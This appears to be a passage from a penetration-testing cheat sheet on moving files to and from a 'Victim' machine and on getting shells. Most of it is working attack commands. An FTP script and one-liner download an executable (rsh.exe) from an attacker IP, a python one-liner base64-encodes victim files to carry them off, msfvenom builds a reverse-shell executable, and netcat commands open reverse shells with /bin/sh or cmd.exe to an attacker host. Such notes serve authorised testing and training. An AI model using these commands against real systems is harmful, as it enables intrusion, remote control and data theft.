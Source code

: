 ```bash
```
From Victim with non-interactive shell, run the following commands to build a file:
```bash
echo open <ip-addr> > ftp.txt
echo anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo binary >> ftp.txt
echo GET [file.exe] >> ftp.txt
echo bye >> ftp.txt
# Send File:
ftp -v -n -P 2121 -s:ftp.txt
```
FTP one-liner:
```bash
echo open 192.168.119.145 >> ftp &echo user anonymous anonymous >> ftp &echo binary >> ftp &echo get rsh.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp &del ftp
```
If Victim is running an FTP service with known credentials or with anonymous:anonymous we can copy and serve files using filezilla GUI
#### MANNUAL OPTION (Copy & paste):
If file is binary we can encode it on the Victim machine first:
```bash
python -c 'print(__import__("base64").b64encode(open("file", "rb").read()))'
```
On Kali:
```bash
base64 -d output.txt > output-file
```

## Shells
Different methods to obtain and upgrade shells, including reverse shells, bind shells, and more.
[Generate reverse shell one-liners](https://revshells.com)
[PayloadsAllTheThings Reverse Shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[msfvenom cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
### MSFVENOM
Example usage:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.192 LPORT=1234 -f exe > shell.exe
```
List Available Payloads:
```bash
msfvenom -l payloads
```
List available formats:
```bash
msfvenom -l formats
```
`-e` encoder 
`-b` bad characters
`-f` format
`-p` payload
### NETCAT
In Kali:
```bash
nc -nlvp 4444 
```
In Victim
```bash
nc 192.168.1.1 4444 -e /bin/sh # (Linux) (or /bin/bash)
nc 192.168.1.1 4444 -e cmd.exe # (Windows)
```